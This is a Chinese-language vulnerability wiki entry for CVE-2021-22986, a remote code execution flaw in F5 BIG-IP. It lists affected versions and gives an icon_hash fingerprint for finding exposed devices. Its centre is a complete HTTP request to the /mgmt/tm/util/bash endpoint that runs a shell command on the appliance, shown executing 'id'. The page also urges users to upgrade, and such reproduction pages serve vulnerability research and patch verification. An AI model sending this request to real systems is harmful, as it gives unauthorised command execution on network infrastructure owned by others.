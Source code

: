 # F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。



近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

<a-checkbox checked>F5 BIG-IP 16.x: 16.1.0.3</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 15.x: 15.1.0.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 14.x: 14.1.2.6</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 13.x: 13.1.3.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 12.x: 12.1.5.2</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 11.x: 11.6.5.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

访问登录页面如下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222032.png)



发送请求包

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222086.png)

成功执行命令 id

